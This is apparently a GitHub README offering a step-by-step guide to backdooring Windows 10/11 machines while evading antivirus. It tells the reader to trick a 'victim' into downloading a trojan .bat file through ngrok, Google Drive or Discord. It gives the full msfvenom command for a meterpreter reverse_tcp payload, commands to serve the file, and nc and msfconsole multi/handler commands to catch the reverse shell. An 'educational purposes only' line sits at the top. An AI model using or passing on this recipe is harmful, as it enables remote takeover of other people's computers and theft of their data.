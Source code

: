 # Windows 11/10 Evade AV & Backdoor

#### **For educational purposes only!**
#### **Requires victim to have Admin Privs**

## Steps to Compromise:

1. **Setup Trojan Horse.** 
2. **Get creative and get victim to download .bat file to their machine (i.e through ngrok server, google drive, discord, or other means.)**
3. **Generate the payload:** <br>
Using meterpreter here, but feel free to play around with it. <br>
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[YOUR_IP] LPORT=4444 -a x86 -f exe -o [FILE_NAME.exe]
4. **Setup server in files directory:** <br>
ngrok tcp 80 or python3 -m http.server 80
Using ngrok, or python if local
5. **Setup your listener with nc or msfconsole:** <br>
nc -lvnp 9001 <br>
or <br>
msfconsole -q <br>
msf> use multi/handler <br>
msf  exploit(handler) > set payload windows/meterpreter/reverse_tcp <br>
msf  exploit(handler) > set LHOST <Listening_IP> (for example set LHOST 192.168.5.55) <br>
msf exploit(handler) > set LPORT <Listening_Port> (for example set LPORT 4444) <br>
msf exploit(handler) > exploit <br>

# Demonstration Video
Insert video in markdown!

